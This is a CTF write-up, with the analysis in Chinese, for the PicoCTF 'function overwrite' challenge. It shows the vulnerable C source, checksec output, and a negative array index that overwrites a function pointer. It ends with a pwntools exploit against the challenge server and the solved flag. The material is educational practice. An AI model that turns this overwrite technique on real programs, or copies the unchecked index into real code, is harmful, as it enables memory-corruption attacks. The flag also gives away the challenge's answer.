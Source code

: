 ```yaml
---
title: PicoCTF - function overwrite
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - function overwrite
<!-- more -->

## Background
Array Bound

## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```
:::

## Recon
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=8b6f3ccbb344c3ba91ef077e29c8ab9d6e2da011, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/function overwrite/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
這一題比想像中簡單，流程是這樣的，他的function pointer原本預設是指像hard_checker，而它裡面做的事情就是把我們輸入的所有字元以ascii的方式加總，如果加總的結果是13371337，就可以讀到flag，但是我們可以做一個簡單的換算，一個字元最多1 byte，也就是最大0xff，他設定最多只能輸入127個字元，代表0xff\*127=32385，遠遠低於13371337，而題目有提供另外一個checker也就是easy_checker，他只需要最後的加總是1337就可以了，代表完全有可能實現(例如：'z'\*10+'u'$\to$0x7a\*10+0x75)，現在的問題是要怎麼把一開始的function pointer指向easy_checker?

題目故意叫我們輸入兩個數字還特別在hint的地方說
> Don't be so negative
其實就是題是array bound的問題，所以簡單用gdb跟一下就可以換算fun array和check function pointer之間的差距還有該加上多少會變成easy_checker的地址

## Exploit
```python!
from pwn import *

# r = process('./vuln')
r = remote('saturn.picoctf.net', 58094)
easy_checker_addr = 0x080492fc
r.recvuntil(b'>> ')
r.sendline(b'z' * 10 + b'u')
r.recvline()
r.sendline(b'-16')
r.sendline(b'-314')

r.interactive()
```

Flag: `picoCTF{0v3rwrit1ng_P01nt3rs_ded38e3b}`